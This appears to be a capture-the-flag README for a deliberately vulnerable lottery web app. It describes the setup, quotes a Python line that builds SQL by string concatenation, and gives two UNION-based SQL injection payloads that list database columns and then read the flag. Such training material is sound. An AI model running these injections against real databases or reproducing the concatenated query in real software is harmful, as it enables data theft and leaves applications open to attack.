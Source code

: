 # Cheated Lottery

I am trying to win this stupid lottery but with no success for a long time...I have to try one more time, I've got new coupon - maybe this is the one? Who knows, maybe I'll win something more than expected?

## Challenge

Flag is stored in `c2VjcmV0LWRi` database - you need to read it using SQLi

To run this you have to change flag in `entrypoint.sh` and build a docker image. Server will be exposed on port 7331

## Solution

You can see python code by accessing `/?source=1`

Vulnerable piece of code:
```python
mycursor.execute("SELECT * FROM coupons WHERE code = '" + str(form['cid']) + "'")
```

1. SQL: 
```sql
' UNION SELECT 1, table_name, column_name FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema' AND ''='
```

2. SQL: 
```sql
' UNION SELECT 1,ZGVmaW5pdGVseS1ub3QtZmxhZw,2 FROM c2VjcmV0LWRi WHERE ''='
```
